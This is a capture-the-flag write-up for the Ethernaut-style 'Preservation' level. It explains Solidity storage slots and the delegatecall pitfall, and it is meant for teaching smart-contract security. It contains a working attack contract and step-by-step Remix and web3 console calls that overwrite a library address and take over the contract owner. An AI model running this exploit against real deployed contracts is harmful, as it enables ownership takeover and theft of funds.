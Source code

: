 # Preservation

## Key

`delegatecall()` allows a contract to call a function in another (library) contract, but the state variables its changing are the ones of the callee contract (!). Used for libraries of reusable functionalities but a caveat is that influencing the state of the calling contract may be risky

### Layout of state variables in Storage

> Multiple, contiguous items that need less than 32 bytes are packed into a single storage slot if possible, according to the following rules:

    -The first item in a storage slot is stored lower-order aligned.
    -Value types use only as many bytes as are necessary to store them.
    -If a value type does not fit the remaining part of a storage slot, it is stored in the next storage slot.
    -Structs and array data always start a new slot and their items are packed tightly according to these rules.
    -Items following struct or array data always start a new storage slot.

https://docs.soliditylang.org/en/v0.8.11/internals/layout_in_storage.html#layout-of-state-variables-in-storage

### Ethereum storage organization via slots.

Address type are 20 bytes, so here they start a new slot each addr

```
uint160 -> 160bits -> 20bytes -> address in ethereum
                                0x4545c437 0xd127B29b F0BB080D eEe97f15 9AB827d8
uint256-> 256bits -> 32 bytes-> 0x61626364 0x61626364 61626364 61626364
                                  61626364 0x61626364 61626364 61626364
```

```
 -------------------------------
|address public timeZone1Library| SLOT[0]: 20/32 (overwritten)
|-------------------------------|
|address public timeZone2Library| SLOT[1]: 20/32
|-------------------------------|
|address public owner           | SLOT[2]: 32/32
|-------------------------------|
|uint storedTime                | SLOT[3]: 32/32
|-------------------------------|
bytes4 constant setTimeSignature -> constant. No storage slot.
```

The delegate call updates the state of the **first slot of memory** of the callee contract: meaning the `timeZone1Library address`. We can point it to a malicious contract address.

## Solution

1.Try on the Javascript VM the overwriting of the storage slots.

a) Create: `Preservation.sol`, `LibraryContract.sol` and the following `PreservationAttack.sol`:

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract PreservationAttack {
  // victim's state variables
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;

  // Keep signature of the fn, but perform attack.
  function setTime(uint _time) public {
    // attacker's address.
    owner = 0x4545c437d127B29bF0BB080DeEe97f159AB827d8;
  }
}
```

b) Call `setFirstTime()` from `Preservation.sol` with `PreservationAttack.sol` address as an argument.

```js
setFirstTime(0x358aa13c52544eccef6b0add0f801012adad5ee3);
```

c) Debug it in Remix to verify the correct overwriting of Slot[0] of memory corresponding to variable `address public timeZone1Library`

![ ](../images/mem.png)

d) Call again `setFirstTime()` with any argument. In this case it will trigger the method `setTime()` of `PreservationAttack`. And as a collateral the owner of Preservation.sol contract will change to the attacker.

2.Perform similar steps but with the real victim's contract with Injected web3 option in Remix.
a) Get victim's contract address

```js
> contract.address
"0x77a768C52AEB6110f9BF94c00a794221137DDED2"
```

b) We can inspect the storage layout of victim's contract with:

```
> web3.eth.getStorageAt(contract.address, 0)
```

b) Verify contract owner

```js
> await contract.owner()
"0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F"
```

c) Deploy your attackers contract `PreservationAttack.sol`, and gather its address

```js
0x1b3bf5f8de188aceaff98888d246af6561d636f9;
```

d) Call `setTime()` for the first time with attacker's contract address as argument.

```js
> await contract.setFirstTime("0x1b3BF5F8dE188ACeAff98888D246Af6561d636f9")
```

e) And call `setTime()` a second time with any argument to trigger the attackers code that will change ownership in Preservation.sol.

```js
> await contract.setFirstTime("0x1234")

> await contract.owner()
"0x4545c437d127B29bF0BB080DeEe97f159AB827d8"
```

## Post-solution info

As the previous level, delegate mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.
